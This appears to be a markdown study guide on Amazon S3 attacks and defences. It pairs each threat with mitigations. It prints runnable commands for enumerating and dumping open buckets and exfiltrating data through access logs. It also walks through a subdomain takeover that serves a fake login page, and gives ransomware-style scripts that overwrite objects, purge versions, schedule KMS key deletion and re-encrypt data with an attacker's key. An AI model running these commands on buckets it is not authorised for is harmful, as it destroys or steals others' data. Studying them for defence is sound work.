

# Cloud Security
# Amazon Simple Storage Service (Amazon S3)

S3 is an object-level storage service.
Objects are a name/value pair of data or the ”contents” and the metadata. The container
storing the objects is called a ”Bucket”. The buckets are the highest-level namespace
in AWS.
When creating a bucket, the client needs to specify a bucket name and the AWS Region. AWS Region is a geographical area where AWS has data centers for storing data. Each AWS region is designed to be isolated from others. 
After creating a bucket the client can upload data to that bucket as objects. Each object is uniquely identified within the bucket by a key. This key serves as the object's unique identifier and can be used to access the object through an endpoint.

## Threat - Unauthorized access to sensitive data
Target resource - S3 bucket and its data.
The attacker can access and read sensitive data, compromising the confidentiality of the 
data.


## Attacks


### Bucket Enumeration

Bucket enumeration is a process of identifying misconfigured S3 buckets that are publicly accessible. This process can be used as a part of security analysis, or for malicious intent, to determine which objects are present within a given bucket. When an attacker successfully performs S3 bucket enumeration on misconfigured buckets, they can potentially gain access to various types of sensitive data depending on what is stored in those buckets.
Several methods can be used for finding S3 buckets:
- Google Dorking
- AWS CLI
- Third-Party tools - S3Scanner, AWSBucketDump, CloudMapper
- Websites

#### Using Google Dorks to find S3 buckets
Google Dorks are powerful search queries that allow you to find specific information on the internet. <br>
Google Dorking, also known as Google hacking, can return information difficult to locate through simple search queries. This includes information not intended for public viewing, but that is inadequately protected and can, therefore, be "dorked" by a hacker.

You can use Google Dorks to discover S3 buckets. Here are a couple of examples: 

- **site:http://amazonaws.com inurl:".s3.amazonaws.com/"**
   - site:http://amazonaws.com: This part restricts the search to the domain "amazonaws.com." The site: operator is used to specify a particular domain or site where the search should be performed.
   - inurl:".s3.amazonaws.com/": This part of the query focuses on the URL structure. The inurl: operator is used to search for a specific string within the URL. In this case, it looks for URLs containing ".s3.amazonaws.com/". The . before "s3" is used to ensure that it is a specific part of the URL and not just any occurrence of "s3."

- **site:http://s3.amazonaws.com intitle:index.of.bucket** 
   - site:http://s3.amazonaws.com: This restricts the search to the specified site, in this case, http://s3.amazonaws.com. It specifies that the search should focus on Amazon S3 buckets hosted on the Amazon Web Services (AWS) S3 domain.
   - intitle:index.of.bucket: This part of the query focuses on the title of the web pages. It's looking for pages that have the words "index" and "of" in the title and the word "bucket" in the content. This is a common pattern for the default index pages of open S3 buckets, which might expose the contents of the bucket.

#### Using AWS CLI tools find S3 buckets
After creating an AWS account and successfully installation and configuring AWS CLI, AWS CLI commands can be used to interact with S3 Buckets. 
Some of the examples:

**List all Files in an S3 Bucket with AWS CLI**

To list all s3 buckets use following command:
```
   aws s3 ls
```
To list all of the files of an S3 bucket with the AWS CLI, use the s3 ls command, passing in the --recursive parameter.
 ```
    aws s3 ls s3://YOUR_BUCKET --recursive --human-readable --summarize
 ```
The output of the command will show the date the objects were created, their file size, and their path.


The parameters we passed to the s3 ls command are the following:

1. **recursive**: performs the command on all files under the set prefix
2. **human-readable**: displays the file sizes in human-readable format
3. **summarize**: displays the total number of objects and their total size

**List all Files in a Folder of an S3 Bucket**
To list all files, located in a folder of an S3 bucket, use the s3 ls command, passing in the entire path to the folder and setting the --recursive parameter.
 ```
    aws s3 ls s3://YOUR_BUCKET/YOUR_FOLDER/ --recursive --human-readable --summarize
```

The output of the command only will show the files in the /my-folder-1 directory.

**Examine Permissions**

To list bucket policies and access control lists (ACLs):
```
   aws s3api get-bucket-policy --bucket BUCKET-NAME aws s3api get-bucket-acl --bucket BUCKET-NAME
```

#### S3Scanner
S3Scanner uses a list of entries to digest. With this list, it will try to find available S3 buckets. Several formats can be used (bucket name, domain name, full S3 URL, or bucket:region).
Following image shows example of command to run tool with the desired target domain.S3Scanner will scan for publicly accessible buckets and display the results, including bucket names and associated URLs.


Examples

 Scan AWS buckets listed in a file with 8 threads: 
 ```
    $ s3scanner --threads 8 scan --buckets-file ./bucket-names.txt
 ```
Scan a bucket in Digital Ocean Spaces: 
 ```
    $ s3scanner --endpoint-url https://sfo2.digitaloceanspaces.com scan --bucket my-bucket
 ```
Dump a single AWS bucket: 
 ```
    $ s3scanner dump --bucket my-bucket-to-dump
 ```
Scan a single Dreamhost Objects bucket that uses the host address style and an invalid SSL cert: 
 ```
    $ s3scanner --endpoint-url https://objects.dreamhost.com --endpoint-address-style host --insecure scan --bucket my-bucket
```

#### Finding S3 Buckets Using Websites
Several websites offer services to discover open S3 buckets and other cloud storage repositories. Such website: [grayhatwarfare](https://buckets.grayhatwarfare.com/).
By searching for an organization's name, you can filter and browse through the contents of their open S3 buckets.


### Mitigates
#### Public Access Controll: 
- Apply S3 Block Public Access settings to prevent accidental public exposure of data, ensuring that only authorized users have access. 
- To examine available S3 bucket S3 Block Public Access feature configuration Run get-public-access-block command.
   ```
   aws s3api get-public-access-block --bucket cc-internal-data --query 'PublicAccessBlockConfiguration'
  ```
  - If the feature was never enabled on the selected bucket command output returns following message:
   ```
   An error occurred (NoSuchPublicAccessBlockConfiguration)when calling the GetPublicAccessBlock operation: The public access block configuration was not found.
   ```
   - If the S3 Block Public Access feature is not currently enabled command output returns false for each supported setting:
   ```
      {
         "BlockPublicAcls": false,
         "IgnorePublicAcls": false,
         "BlockPublicPolicy": false,
         "RestrictPublicBuckets": false
      }
   ```
- To reconfigure S3 bucket run:
   ```
   aws s3api put-public-access-block --region us-east-1 --public-access-block-configuration BlockPublicAcls=true IgnorePublicAcls=true,BlockPublicPolicy=true RestrictPublicBuckets=true --bucket cc-internal-data
   ```

#### Implement access control:   
- Use bucket policies that define who can access the bucket and what actions they can perform. Example of S3 bucket policy that grants the root user of the AWS account with ID 112233445566 and the user named Tom full access to the S3 bucket.
   ```
   {
   "Id": "Policy1586088133829",
   "Version": "2012-10-17",
   "Statement": [
      {
         "Sid": "Stmt1586088060284",
         "Action": "s3:*",
         "Effect": "Allow",
         "Resource": "arn:aws:s3:::test-sample-bucket",
         "Principal": {
         "AWS": [
            "arn:aws:iam::112233445566:root",
            "arn:aws:iam::112233445566:user/Tom"
         ]
         }
      }
   ]
   }
   ```
- Implement Least Privilege: Apply strict IAM policies to users, groups, and roles. IAM policies specify which actions are allowed or denied on AWS services/resources for a particular user. Example of policy that allows reading access to the s3 bucket. Any user group or role with the below policy attached will be able to read data from this bucket.
   ```
   {
   "Version": "2012-10-17",
   "Statement": [
      {
         "Sid": "VisualEditor0",
         "Effect": "Allow",
         "Action": ["s3:GetObject", "s3:GetObjectVersion"],
         "Resource": "arn:aws:s3:::test-sample-bucket"
      }
   ]
   }
   ```
- Use Object-Level Access Control: If it is required to manage permissions for each object within a bucket independently use ACLs (Access Control Lists) that are applied at the object level.
- A bucket becomes vulnerable to this type of attack when it is made public, and for this reason, this practice should be avoided.

#### Enable Logging and Monitoring: 
- Enable access logging for S3 buckets and integrate them with AWS CloudTrail. This helps you monitor and detect any unauthorized access attempts or suspicious activities. Specifically, CloudTrail can be used to detect actions for enumerating the contents of S3 bucket, monitoring changes in bucket policies, and tracking user activities.

#### Encryption Of Data At Rest:
- After public buckets are found, the attacker can see the data inside the bucket. For protecting data at rest, use of server-side encryption on Amazon S3 will encrypt objects before saving them and then decrypts the objects when downloading them.
- In Server-side encryption, the data is encrypted after being sent to the S3 bucket and before storing it in the S3 bucket.
Server-side encryption has the following three options:
   - Use Amazon S3-managed keys (SSE-S3). In this, the key material and the key will be provided by AWS itself to encrypt the objects in the S3 bucket.
   - Use CMK (Customer Master key) in AWS KMS (SSE-KMS). In this, key material and the key will be generated in AWS KMS service to encrypt the objects in S3 bucket.
   - Use a Customer provided encryption key (SSE-C). In this, the key will be provided by the customer and Amazon S3 manages the encryption and decryption process while uploading/downloading the objects into the S3 bucket.

- In Client-side encryption, the data is encrypted before sending it to the S3 bucket. To implement Client-side encryption in S3, we have the following two options:
   - Use a CMK (customer master key) stored in AWS KMS (Key Management Service)
   - Use a Customer provided master key stored in the customer’s proprietary application


### Data Exfiltration

Data exfiltration is a type of security breach that leads to the unauthorized transfer of sensitive data from the compromised S3 bucket to external endpoints.

The attacker first identifies an AWS S3 bucket that could potentially be the target of the attack and then uses Bucket Enumeration tactics like Google dorks, to find S3 buckets associated with a specific website (command: site:s3.amazonaws.com <site.com>). This search is conducted through the Google search engine to identify potential target buckets. Another method involves using CLI tools for bucket enumeration, such as previously mentioned S3Scanner or scripts like AWSBucketDump. These tools assist in identifying available buckets by accessing information about their configurations and contents.

**Data Exfiltration through misconfigured ACL**

Attacker can check if there are configurations that could lead to an attack. To view permissions, the following command is used:
```
 aws s3api get-bucket-acl --bucket <bucket-name> --output json
```

Next attacker can use the following command, to list all files and directories in the given bucket:
```
 aws s3 ls s3://<bucket-name>
```
Now if the bucket has misconfigured ACL(Access Control Lists) permissions, following command can be used to download data from an S3 bucket to your local system. 
 ```
    aws s3 sync s3://<bucket>/<path> </local/path>
 ```

**Data Exfiltration through S3 Server Access Logs**

Another way of data exfiltration attack can be peroformed if attaker have control over an IAM identity that allows s3:GetObject, depending on the network access to the S3 service, attacker can use S3 server access logs to a bucket that he controls, and use it to exfiltrate data.

With server access logging, every request to our S3 bucket will be logged to a separate logging bucket. This includes internal AWS requests, or requests made via the AWS console. Even if a request is denied, the payload that the request is carrying, will be sent to our logging bucket. Attacker can then send GetObject requests to s3 buckets, that we don't have access to, but because attacker controls the server access logs, he will still receive the exfiltrated data.

Attacker can create an S3 bucket with server access logging. With our data in hand ExampleDataToExfiltrate, send GetObject request will be send to our bucket, for example:
```
aws s3api get-object --bucket AttackerBucket --key ExampleDataToExfiltrate
```
The request will be denied. However the attempt along with the other details, including our key ExampleDatatoExfiltrate - which is the data that attacker is trying to exfiltrate - will arrive to logging bucket AttackerBucketLogs. Data will be received in the format below. Attacker can exfiltrate data, using the Key parameter of the request.
```
[..] attackerbucket […] 8.8.8.8 – […] REST.GET.OBJECT ExampleDataToExfiltrate "GET / ExampleDataToExfiltrate HTTP/1.1" 403 AccessDenied 243 - 18 - "-" "UserAgentAlsoHasData " – […]
```

**Exfiltrating S3 Data with Bucket Replication Policies**
S3 data replication provides the ability to copy objects to another. This can be done between buckets in the same account, or an unrelated account. In this type of attack attacker could input a replication policy to copy objects to bucket controlled by him. Objects will continue to be replicated for as long as the policy in place, applying to all future objects placed into the bucket. Using S3 batch operations, attackers can also replicate objects already in the bucket, making it a convenient method for extracting all current and future objects uploaded to the impacted bucket.

Required Configurations and Permissions for attack to be executed:
- The source bucket owner must have the source and destination AWS Regions enabled for their account. For the destination account, just the destination region needs to be enabled.
- Both source and destination buckets must have versioning enabled.
- If the source bucket has S3 Object Lock enabled, the destination buckets must also have S3 Object Lock enabled.
- Minimum Required IAM Permissions in Source Account - that attacker must have are: 
   - iam:CreateRole (creating a new role)
   - iam:CreatePolicy & iam:AttachRolePolicy (creating a new policy) or iam:PutRolePolicy (modifying an existing policy)
   - iam:UpdateAssumeRolePolicy
- If objects are encrypted minimum required IAM Permission in Source Account must be kms:PutKeyPolicy. 
- Minimum Required IAM Permissions in Destination Account are s3:PutBucketPolicy, kms:CreateKey kms:PutKeyPolicy, s3:PutBucketVersioning
- In order for a bucket to receive logs from another account, it requires a bucket policy explicitly allowing the replication of objects across.
### Mitigates

#### Acces Control and Public Access
- As mentioned in the previous attack, it is essential to pay attention to configurations such as setting up IAM user policies, S3 bucket policies.
- A majority of modern use cases in Amazon S3 no longer require the use of ACLs, and it is recommended to keep ACLs disabled except in unusual circumstances where it is needed to control access for each object individually.
With ACL disabled, it is recommended to use the policies mentioned above.
- Keep S3 bucket private.
- Apply least privilege on IAM and bucket policies.


#### Encryption Of Data At Rest
- As mentioned in previous attack it is important to encrypt data is S3 bucket, to protecting data at rest, and reducing the risk of unauthorized access
- Use server and client side encryption.

####  Encrypt data in transit
- HTTPS (TLS) is recommended to use, to help prevent potential attackers' encryption of data in transit. It is recommended to allow only encrypted connections over HTTPS (TLS) by using the was: SecureTransport condition in your Amazon S3 bucket policies.
This example bucket policy complies with the s3-bucket-ssl-requests-only rule. This policy explicitly denies all actions on the bucket and objects when the request meets the condition "aws:SecureTransport": "false":
   ```
   {
   "Id": "ExamplePolicy",
   "Version": "2012-10-17",
   "Statement": [
      {
         "Sid": "AllowSSLRequestsOnly",
         "Action": "s3:*",
         "Effect": "Deny",
         "Resource": [
         "arn:aws:s3:::DOC-EXAMPLE-BUCKET",
         "arn:aws:s3:::DOC-EXAMPLE-BUCKET/*"
         ],
         "Condition": {
         "Bool": {
            "aws:SecureTransport": "false"
         }
         },
         "Principal": "*"
      }
   ]
   }
   ```

#### "Write Once Read Many" model
- With S3 Object Lock, you can store objects by using a WORM model. S3 Object Lock can help prevent accidental or inappropriate deletion of data.
S3 Object Lock can be used to help protect your AWS CloudTrail logs.

#### Enable Logging and Monitoring
- Analyzing CloudTrail logs can be used to identify and respond to data exfiltration attempts by monitoring S3 data events, and analyzing logs for unauthorized object copies.
- To protect from bucket replication look for unknown PutBucketReplication or JobCreated events in the Cloudtrail Management trail. The JobCreated event is generated when an S3 Batch operation job has been created, indicating that all existing objects in a bucket are being replicated across, as opposed to only future S3 objects.
- Also Cloudtrail Management trail records unknown PutBucketVersioning events (a pre-requisite of bucket replication) on existing S3 buckets.

#### Consider using VPC endpoints for Amazon S3 access
- A virtual private cloud (VPC) endpoint for Amazon S3 is a logical entity within a VPC that allows connectivity only to Amazon S3. VPC endpoints provide multiple ways to control access to your S3 bucket and help prevent traffic from traversing the open internet.

### Abuse of Bucket Permissions
Aabuse of S3 bucket permissions refers to instances where the configuration and permissions of buckets are not properly managed, leading to security vulnerabilities, including unauthorized access, data exposure, and data leakage.

After identifying S3 buckets using Bucket Enumeration, attacker can test permissions they have. 



Each S3 bucket has an ACL attached to it. These ACLs can be configured to provide an AWS account or group access to an S3 bucket. There are four types: read, write, read_acp, write_acp.

**READ Permission**

This permission allows reading the contents of the bucket. At the object level, it allows reading the contents as well as metadata of the object. 
Testing this can be done by accessing it via URL http://[name_of_bucket].s3.amazonaws.com. This same thing can be done by using the AWS CLI as well.
 ```
    aws s3 ls s3://[name_of_bucket]  --no-sign-request
 ```
No sign request switch that we used in the above command is used to specify not to use any credential to sign the request. A bucket that allows reading its contents will spit out all the contents once requested by any of the above methods. HTML request will show output on the XML page and the command line will give a list of files.
This image shows resoult of souch commands.


**WRITE Permission**

This permission allows to create, overwrite, edit and delete objects in a bucket. This permission can be tested by the AWS CLI, with following command.
 ```
    aws s3 cp localfile s3://[name_of_bucket]/test_file.txt –-no-sign-request
 ```
A bucket that allows unrestricted file upload will show a message that the file has been uploaded. On following image, when command is run for first time, it showed error because s3 bucket blocked file uploads. Later on, permission are modified to allowe file uploads.


**READ_ACP**

At bucket, level allows to read the bucket’s Access Control List and at the object level allows to read the object’s Access Control List.
 ```
    aws s3api get-bucket-acl --bucket [bucketname] --no-sign
    aws s3api get-object-acl --bucket [bucketname] --key index.html --no-sign-request
 ```
Once we execute both these commands, they will output a JSON describing the ACL policies for the resource being specified.


**WRITE_ACP**

This policy at the bucket level allows setting access control list for the bucket. At the object level, allows setting access control list for the objects.
 ```
    aws s3api put-bucket-acl --bucket [bucketname] [ACLPERMISSIONS] --no-sign-request
    //To test for a single object, following command
    aws s3api put-object-acl --bucket [bucketname] --key file.txt [ACLPERMISSIONS] --no-sign-request
 ```

**FULL_CONTROLL**

This grants full control (READ,WRITE,READ_ACP, WRITE_ACP). 
This permission allows any authenticated AWS client to to perform any action on the specified S3 bucket
```
   aws s3api put-object-acl --bucket [bucketname] --key file.txt [ACLPERMISSIONS] –profile [your_profile_name]
```

### Mitigates

#### Bucket policies:
- Administrators should set each and every permission/Action manually as per requirement and configure the bucket properly such that public access is blocked.
- Example of policy where the main problem is with the Action tag which is set to *. It means that to allow all the actions including reading write upload delete etc.
    ```
    {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "Statement1",
                "Effect": "Allow",
                "Principal": {
                    "AWS": ""
                },
                "Action": "*",
                "Resource": [
                    "arn:aws:s3:::temp4blog",
                    "arn:aws:s3:::temp4blog/*"
                ]
            }
        ]
    }
    ```

#### Acces Controll:
- As mentioned in the previous attacks, it is always essential to pay attention to configurations such as setting up IAM user policies and S3 bucket policies, and implement principle of Least-Privilege.
- Don't allow public access to bucket.


## Threat - Taking control over data
Target resource - S3 bucket and its data.
The attacker has the ability to access, manipulate data, and take control of the bucket, compromising the confidentiality, integrity, and availability of the data. 


## Attacks

### Subdoman takeover - Bucket takeover
Sub domain Takeover attack is when an attacker is able to gain control of a company’s subdomain hosted on a cloud service such as AWS, github etc. because of the DNS entries pointing to that service is not being removed. This allows attacker to set up a phishing page on that sub-domain or serve malicious content.

**Subdomain takeover in amazon S3**

Each bucket pointing to a specific domain or subdomain. So sometimes, when s3 buckets is no longer in use customer delete them from their account, but forgets to remove the DNS entry pointing to that subdomain it may escalate to a subdomain takeover because amazon allow non existing bucket names to be claimed again on any other account.

Since Amazon S3 buckets’ contents can be retrieved over HTTP, they can be used to store and serve static assets such as images, videos, stylesheets, user upload content, or complete static websites. An S3 bucket is accessed by, for example URL our.company.com.s3-website.ap-west-1.amazonaws.com”. Organizations tend to create custom subdomains like “our.company.com”. Custom subdomains are created by adding DNS CNAME.

Later when this bucket is deleted from AWS S3, we still have the DNS record pointing to the bucket URL: since it wasn’t removed, it now points to a bucket that doesn’t exist anymore.In such a case, pointing the browser to blog.char49.com would return a page like the one below:

What if someone else creates a new bucket with the same name? Then, that person will be in control of what content is served by our subdomain, thus we’re victims of subdomain takeover. 

**Attack scenario**

During enumeration, attacker can find multiple subdomains one of them is ‘our.company.com’. When attacker tries to access this domain using the browser, the URL raises a ‘404 NOT FOUND’, with some additional information like shown in previous image.
Since this error message indicates that there is no S3 bucket. Elliot can reuse/reclaim this bucket with folowing command:
 ```
    aws s3api create-bucket -bucket our.company.com -region eu-west-2 -create-bucket-configuration LocationConstraint=eu-west-2
 ```
 After creation, he applied a policy to the bucket which will allow him to serve static content from this.
 ```
    aws s3api put-bucket-policy — bucket assets.ecorp.net -policy file://malicious_policy.json
 ```

 Now the takeover bucket is up and ready to use, attacker can decide to showcase the harm it can do to the organization. So he uploads a fake login page that resembles Our Organization.
```
    aws s3 sync ./static/ s3://our.company.com
    Note: /static is the local directory that consists of the malicious login page.
    aws s3 website s3://our.company.net/ — index-document index.html — error-document index.html
```
Now when someone acces login page, this webpage is being served from our domain name. Since attacker now controls the S3 bucket he can further perform several malicious attacks such as: Hosting Phishing websites, Hosting Malware, Bypassing CSP policies, Stealing Cookie’s, Man-in-the-browser attacks.


## Mitigates

#### Acces Controll:
- As mentioned in the previous attacks, it is always essential to pay attention to configurations such as setting up IAM user policies and S3 bucket policies, and implement principle of Least-Privilege.

#### DNS records examination:
- It is recommendation that organization’s DNS records be examined every time there is a termination of a S3 bucket. This will ensure there are no DNS/CNAME entries that point to non-existent S3 buckets which could potentially be exploited.

#### Monitor subdomains:
- Regularly monitor subdomains to ensure taht they are pointing to the correct S3 bucket.

## Threat - Data Manipulation/Corruption 
Target resource - S3 bucket and it's data.
Attackers can exploit vulnerabilities to maliciously modify information, compromising the integrity and reliability of the affected data, leading to potential misinformation, unauthorized access, or system malfunctions.


## Attacks

### S3 Ransomware Attack
Ransomware Attack is when an attacker gains access to a victim’s system and encrypts the sensitive data on it. This is accompanied by a threat to delete or publicly release the data.
The most straightforward way for an attacker to perform ransomware on a bucket is by gaining access to, copying and deleting the information in the bucket -- or otherwise denying access to it to anyone else. Instead of storing the data in its own account, the attacker can encrypt the data locally and store it on the compromised bucket in the victim’s environment.

This attack method has four types of combinations that are interesting to distinguish between: data deletion when versioning is not enabled, data deletion when it is, deleting a KMS(AWS Key Management Service) key used to encrypt the bucket (should the bucket be encrypted with a KMS key) and deleting the information on the bucket using lifecycle rules. 


Each of those methods requires the ability to access the information in the bucket first what would include performing the following functions:  
- Listing the objects in the buckets with the s3:ListBucket permission granted to a specific identity or, if the bucket is open for use publicly, by its ACL  
- If the bucket is KMS encrypted, decrypting the information on the bucket using kms:Decrypt on the KMS key with which it is encrypted  
- Reading the contents of the objects using s3:GetObject   

**Data Deletion When Versioning Is Not Enabled**  
When the bucket does not have versioning enabled on it, it’s enough to be able to delete an 
object using s3:DeleteObject. Another way is by overwriting it with a different value, possibly ciphertext generated by encrypting the original data locally using s3:PutObject or by the bucket being public for overwriting due to its ACL. 

Command for deleting all data
 ```
     aws s3 rm --recursive s3://your_bucket_name
 ```

For overwriting files attacker can create a blank file and systematically replace every object in the bucket, in effect to make the data unusable, as shown below.
  ```
      # Create an empty file locally
      touch emptyfile.txt

      # Get a list of all objects in the bucket
      aws s3 ls s3://ransom-test-with-versioning --recursive | awk '{print $4}' > objects.txt

      # Read the file line by line
      while IFS= read -r line
      do
        # Copy the empty file to each object in the bucket
        aws s3 cp emptyfile.txt s3://ransom-test-with-versioning/$line
      done < objects.txt

      # Remove the local files
      rm emptyfile.txt objects.txt
 ```

**Data Deletion When Versioning Is Enabled**

If versioning is enabled, the attacker would have to have access to functions for listing all the 
versions using s3:ListBucketVersions or by means of the bucket being public for listing due to 
its ACL. It would then need to be able to perform s3:DeleteObjectVersion so it can remove all 
previous versions of the object in the bucket in addition to deleting/overwriting the current 
version. 

Command to delete remaining backups
```
    aws s3api list-object-versions \
    --bucket my-bucket \
    --output json | jq -r '.Versions[] | .Key + " " + .VersionId' | while read key versionId
    do
      aws s3api delete-object \
      --bucket my-bucket \
      --key "$key" \
      --version-id "$versionId"
    done
```

**KMS Key Deletion**  
If the bucket is KMS encrypted, there’s another way the attacker can make the objects in the bucket unavailable. If it can successfully delete the KMS key with which the objects were encrypted, there is no way for anyone to decrypt the bucket. To do so, the attacker will need to have permissions to perform kms:ScheduleKeyDeletion on the KMS key in question. 

Command for scheduling key deletion
 ```
    aws kms schedule-key-deletion --key-id <new-key-id>
 ```

**Managing Lifecycle Configuration**  
S3 buckets have a very useful mechanism for managing “Lifecycle Rules” by performing actions, such as transitioning versions of objects between storage classes, automatically expiring current versions of an object and permanently deleting previous versions of a bucket. Combining the ability to expire an object and then have it permanently deleted is potent. A attacker that gains the ability to configure lifecycle 
will be able to configure the bucket to “self destruct” its objects. To be able to manage lifecycle configuration on a bucket, a attacker would need to have permission s3:PutLifecycleConfiguration. 

Code shows manipulation with bucket life-cycle rules by setting them to delete objects automatically after a certain period and by bypassing the need for direct deletion permissions.
```
    aws s3api put-bucket-lifecycle-configuration \
    --bucket my-bucket \
    --lifecycle-configuration '{
      "Rules": [
        {
          "ID": "Delete older versions",
          "Status": "Enabled",
          "Filter": {
            "Prefix": ""
          },
          "NoncurrentVersionExpiration": {
            "NoncurrentDays": 1
          }
        }
      ]
    }'
 ```


**Encrypt / Re-encrypt objects**

Encrypt / Re-encrypt objects with encryption key of attacker. Encryption key can be local or stored in a remote account. In this way, the encryption key is the only way the victim can decrypt the files.
 ```
    aws s3 cp s3://my-bucket/ s3://my-bucket/ --recursive --sse-c AES256 --sse-c-key $encryption_key
 ```
Once a customer key encrypts the object, the victim will receive again the following error when trying to access the encrypted files:

 
**Attack path for ransomware**

• Attacker creates a KMS key in their own AWS account and provides “the world” access to use that KMS key for encryption. This means that it could be used by any AWS user/role/account to encrypt, but not decrypt objects in S3.

• Attacker identifies a target S3 bucket and gains write-level access to it. 

• Attacker checks the configuration of the bucket to determine if it is able to be targeted by ransomware. This would include checking if S3 Object Versioning is enabled and if multi-factor authentication delete (MFA delete) is enabled. If Object Versioning is enabled, but MFA delete is disabled, the attacker can just disable the Object Versioning. If both Object Versioning and MFA delete are enabled, it would be required to delete remaining backups first.

• Attacker uses the AWS API to replace each object in a bucket with a new copy of itself, but this time, it can be encrypted with the attackers KMS key.

• Attacker schedules the deletion of the KMS key that was used for this attack.

• Attacker uploads a final file such as “ransom-note.txt” without encryption, which instructs the target on how to get their files back.

The following screenshot shows an example of a file that was targeted for a ransomware attack. As you can see, the account ID that owns the KMS key that was used to encrypt the object is different than the account ID of the account that owns the object.


The next screenshot shows what happens when the object owner uses a pre-signed URL to try to view the object. Access is denied because even though the object owner has permission to view the object, they don’t have permission to use the KMS key to decrypt the encrypted object.


### Mitigates

#### Acces Controll:
- As mentioned in the previous attacks, it is essential to pay attention to configurations such as setting up IAM user policies and S3 bucket policies. Principle of Least-Privilege should be implemented for both.
- Enforce multi-factor authentication (MFA) everywhere possible for everyone (both for the AWS web console and for AWS access keys)

#### Enable Logging and Monitoring:
- Like in previous attacks, analyzing CloudTrail logs it can be used to identify and respond to data tampering attempts by monitoring S3 data events, analyzing logs for unauthorized object copies and changes.

#### Pre-receive hooks:
- Create pre-receive [git hooks](https://githooks.com/) in your Git repositories to monitor for commits that may accidentally contain credentials and deny them before a developer pushes their access keys or credentials.
#### S3 Object Versioning and MFA Delete:
- This is perhaps the most important, but potentially very expensive. S3 Object Versioning allows S3 objects to be “versioned”, which means that if a file is modified, then both copies are kept in the bucket as a sort of “history”. This helps to recover the objects from accidental deletes or overwrites. 
- S3 Object Versioning is not enough on its own, because an attacker could just disable the versioning and overwrite/delete any existing versions that are in the bucket without the worry of a new version being created. To combat this, AWS offers the feature of multi-factor authentication delete in S3 buckets. 
- When MFA delete is enabled the bucket owner must include two forms of authentication in any request to delete a version or change the versioning state of the bucket. Additionally MFA delete requires additional authentication for either of the following operations:
   - Change the versioning state of the specified S3 bucket (i.e. disable versioning)
   - Permanently delete an object version
- For example if your security credentials are compromised MFA delete can help prevent accidental bucket deletions by requiring the user who initiates the delete action to prove physical possession of an MFA device with an MFA code.
- The example enables S3 Versioning and multi-factor authentication (MFA) delete on a bucket. (Using the AWS CLI)
   ```
      aws s3api put-bucket-versioning --bucket DOC-EXAMPLE-BUCKET1 --versioning-configuration Status=Enabled,MFADelete=Enabled --mfa "SERIAL 123456"	
   ```


## Literature
1. [S3 Bucket Enumeration and Exploitation](https://www.geeksforgeeks.org/s3-bucket-enumeration-and-exploitation/)
2. [Misconfigured AWS S3 Bucket Enumeration](https://medium.com/@narenndhrareddy/misconfigured-aws-s3-bucket-enumeration-7a01d2f8611b)
3. [S3 Bucket Enumeration: Research and Insights](https://medium.com/@aka.0x4C3DD/s3-bucket-enumeration-research-and-insights-674da26c049e)
4. [Hidden Risks of Amazon S3 Misconfigurations](https://blog.qualys.com/vulnerabilities-threat-research/2023/12/18/hidden-risks-of-amazon-s3-misconfigurations)
5. [Exfiltrating S3 Data with Bucket Replication Policies](https://hackingthe.cloud/aws/exploitation/s3-bucket-replication-exfiltration/)
6. [AWS S3 Bucket Takeover Vulnerability: Risks, Consequences, and Detection](https://socradar.io/aws-s3-bucket-takeover-vulnerability-risks-consequences-and-detection/)
7. [Data Exfiltration through S3 Server Access Logs](https://hackingthe.cloud/aws/exploitation/s3_server_access_logs/)
8. [Security best practices for Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/security-best-practices.html)
9. [Security best practices for Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/security-best-practices.html)
10. [List all Files in an S3 Bucket with AWS CLI](https://bobbyhadz.com/blog/aws-cli-list-all-files-in-bucket)
11. [S3Scanner](https://pypi.org/project/S3Scanner/)
12. [S3 Ransomware: Attack Vector](https://rhinosecuritylabs.com/aws/s3-ransomware-part-1-attack-vector/)
13. Misconfigurations Leading to AWS S3 Ransomware Exposure: Hard Facts and Mitigation Techniques 
14. [Ransomware in the Cloud: Breaking Down The Attack Vectors](https://www.dig.security/post/understand-ransomware-to-protect-your-data-in-the-cloud)
15. [Subdomain Takeover via Abandoned Amazon S3 Bucket](https://char49.com/articles/subdomain-takeover-via-abandoned-amazon-s3-bucket)
16. [Sub-Domain Take Over — AWS S3 Bucket](https://towardsaws.com/subdomain-takeover-aws-s3-bucket-4699815d1b62)
17. [Abusing S3 Bucket Permissions](https://www.yeswehack.com/learn-bug-bounty/abusing-s3-bucket-permissions)